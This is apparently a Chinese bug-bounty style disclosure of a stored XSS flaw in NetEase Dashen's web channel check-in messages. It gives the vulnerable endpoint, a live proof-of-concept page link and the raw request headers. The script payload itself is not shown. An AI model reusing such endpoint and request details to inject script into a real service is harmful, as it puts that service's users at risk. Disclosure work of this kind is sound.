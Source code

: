 ```yaml
---
layout: post
title:  "中危：网易大神Web端频道签到消息存储型XSS漏洞"
date:   2023-10-19 10:26:18 +0800
categories: xss
---
```


## Name

> 网易大神Web端频道签到消息存在存储型XSS漏洞

## Weakness
> 存储型XSS

## Severity
> 高危

## URL
- POST https://inf-im.ds.163.com/v1/web/chat-room-msg/send-msg
- POC网页 https://ds.163.com/channel/0149881854/1459481/ 打开后在终端打印111222233
- 视频链接：链接：https://pan.baidu.com/s/1468B0QCK8zEIu7MtIVb4CQ 提取码：1314

## Key Payload

    POST /v1/web/chat-room-msg/send-msg HTTP/1.1
    Host: inf-im.ds.163.com
    Connection: close
    Content-Length: 586
    GL-CheckSum: 20c428fbe325f20d1ff139943dafd2334814804e_28aebbff3e33281f4afe3ebcf0b19ae90ba97998
    sec-ch-ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
    sec-ch-ua-mobile: ?0
    GL-Uid: xxxxxxx
    GL-DeviceId: 1189888043.1694780319
    Content-Type: application/json;charset=UTF-8
    Accept: application/json, text/plain, */*
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
    GL-ClientType: 61
    GL-Nonce: xxxx
    GL-X-XSRF-TOKEN: xxxxx
    sec-ch-ua-platform: "Windows"
    Origin: https://ds.163.com
    Sec-Fetch-Site: same-site
    Sec-Fetch-Mode: cors
    Sec-Fetch-Dest: empty
    Referer: https://ds.163.com/
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,ja-JP;q=0.6,ja;q=0.5
    Cookie: xxx
